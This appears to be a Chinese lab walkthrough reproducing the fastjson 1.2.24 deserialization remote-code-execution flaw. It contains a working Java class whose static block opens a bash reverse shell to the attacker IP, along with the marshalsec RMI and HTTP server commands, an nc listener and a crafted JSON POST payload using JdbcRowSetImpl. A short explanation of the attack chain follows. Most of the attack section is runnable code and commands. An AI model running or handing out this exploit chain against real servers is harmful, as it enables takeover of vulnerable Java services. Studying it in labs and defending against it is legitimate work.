 # 背景

- fastjson是阿里巴巴公司开源的一款`json解析器`,其性能优越,被广泛应用于各大厂商的java项目中,`fastjson1.2.24`版本后增加了反序列化白名单,而在`1.2.48`以前的版本中,攻击者可以利用特殊构造的json字符串绕过白名单检测,成功执行任意命令

# fastjson反序列化(1.2.24-rce)

> 1.2.24-rce

### 环境准备



<img src="./assets/image-20241023142433451.png" alt="image-20241023142433451" style="zoom:50%;" />



- 攻击机:`192.168.2.13`
- 靶机:`192.168.2.254`

### 开始攻击

- 编辑一个恶意java类

```java
//shell.java
import java.lang.Runtime;
import java.lang.Process;
public class shell {
    static {
        try {
            //TODO:这里反弹shell的代码
            Runtime rt = Runtime.getRuntime();
            //TODO:这里需要填写自己攻击机的ip
            String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.2.13/8888 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
        }
    }
}

```

- 使用`javac`进行编译

```cmd
javac shell.java
```

<img src="./assets/image-20241023144805954.png" alt="image-20241023144805954" style="zoom:50%;" />

- 下载工具

```bash
git clone https://github.com/mbechler/marshalsec.git
```

<img src="./assets/image-20241023145939358.png" alt="image-20241023145939358" style="zoom:50%;" />

- 切换到克隆的文件里,使用`maven`攻击打包项目

<img src="./assets/image-20241023150134671.png" alt="image-20241023150134671" style="zoom:50%;" />

- 打包好了会多一个`target`

<img src="./assets/image-20241023150308744.png" alt="image-20241023150308744" style="zoom:50%;" />

- 把恶意类移动到`target`里

```bash
mv /home/kali/桌面/shell.class /home/kali/桌面/marshalsec/target
```

<img src="./assets/image-20241023150520512.png" alt="image-20241023150520512" style="zoom:50%;" />

- 在当前目录开启一个http服务

```bash
python -m http.server 90000
```

![image-20241023150715808](./assets/image-20241023150715808.png)

- 开启一个`rmi`服务器

```bash
# ip:port --> 刚才起的9000端口, 9999是rmi服务器端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.2.13:9000/#shell" 9999
```

![image-20241023151153585](./assets/image-20241023151153585.png)

- 监听端口(这个端口是恶意类里写的8888端口)

```bash
nc -lvvp 8888
```

![image-20241023151545397](./assets/image-20241023151545397.png)

- 打开`burp`访问网页抓包,构造恶意请求

```http
POST / HTTP/1.1
Host: 192.168.2.254:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.2.13:9999/shell",
			"autoCommit":true
	}
}
```

- 这里需要注意,修改为`post`请求方式
- `conctent-type`修改为这个`content-type:application/json`

![image-20241023151824172](./assets/image-20241023151824172.png)

- 反弹成功

![image-20241023151845402](./assets/image-20241023151845402.png)

### 漏洞原理

- fastjson在解析`json`文件的过程中,支持使用`atuo type`来实例化一个类,并调用`set/get`方法来访问属性,fastjson默认使用`@type`指定反序列化任意类
- 攻击手法:攻击者可以构造恶意类,通过`反序列化`过程中调用`getter/setter`方法,以及目标成员变量的注入来达到传参的目的,最终形成恶意调用链
- 利用`流程`

```bash
1.首先开启http服务器,并将恶意类放在目录下
2.开启恶意的RMI服务器
3.攻击者控制url参数为上一步开启俄rmi服务器地址
4.恶意rmi服务器返回referencewrapper类
5.目标(jnid client)在执行lookup操作时候,在decodeObject中将referenceWrapper变成Reference类,然后远程加载并实例化我们的factory类(即远程加载我们http服务器上的恶意类),在实例化时触发静态代码片段中的恶意代码
```

****

# fastjson反序列化(1.2.47)

> 1.2.47-rce

### 环境准备

<img src="./assets/image-20241023154208224.png" alt="image-20241023154208224" style="zoom: 33%;" />

### 开始攻击

- 所有步骤跟`1.2.24`一致

<img src="./assets/image-20241023160524485.png" alt="image-20241023160524485" style="zoom: 50%;" />

- 没什么说的

****